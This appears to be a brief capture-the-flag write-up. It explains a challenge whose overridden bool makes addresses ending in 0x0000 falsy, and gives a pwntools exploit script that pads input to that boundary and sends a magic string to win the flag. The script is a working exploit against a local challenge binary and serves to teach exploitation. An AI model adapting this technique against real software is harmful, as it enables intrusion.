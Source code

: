 This program overwrites `bool` to provide a subtle bug: any returned address with the last 2
bytes as 0x0000 will evaluate as falsy.

```python
from pwn import *

p = process("./chall")

p.recvuntil(b"prepare to write to buffer at: ")

buffer_addr = int(p.recvline(keepends=False), 16)

needed_padding = 0x10000 - (buffer_addr & 0xFFFF)

payload = b""
payload += b"A" * needed_padding
payload += b"givemetheflagpls"

p.recvuntil(b"please enter your super secret string: ")
p.sendline(payload)

p.interactive()
```
